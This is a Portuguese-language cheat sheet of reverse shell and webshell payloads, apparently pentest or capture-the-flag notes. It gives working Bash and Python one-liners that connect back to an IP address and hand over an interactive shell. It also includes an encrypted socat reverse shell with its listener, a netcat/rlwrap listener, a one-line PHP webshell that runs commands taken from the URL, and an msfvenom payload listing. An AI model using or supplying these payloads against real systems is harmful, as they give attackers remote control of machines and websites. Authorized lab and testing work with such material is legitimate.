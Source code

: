 - **Reverse Shells**:
```bash
https://www.revshells.com/?source=post_page-----ae216e7a836f---------------------------------------
```
# 🖥 Shells Reversas

## 🖥 Bash
```bash
cat << 'EOF' > test
#!/bin/bash
bash -i >& /dev/tcp/10.21.107.237/80 0>&1
EOF
```

## 🐍 Python
```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.21.107.237",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## 🔐 Shell reversa criptografada com SOCAT
### 🔹 Gerar chaves
```bash
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
cat shell.key shell.crt > shell.pem
```

### 🔹 Listener criptografado
```bash
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
```

### 🔹 Reverse shell no alvo
```bash
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```

---

# 🔥 Melhorando Shells
## 🪟Windows
```bash
apt install rlwrap
rlwrap nc -lvnp <port>
```

---



## 📌Exemplo de Webshell em PHP
```php
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```

## 📌Metasploit Payloads
```bash
msfvenom -l payloads | grep "windows"
https://gist.github.com/dejisec/8cdc3398610d1a0a91d01c9e1fb02ea1
```
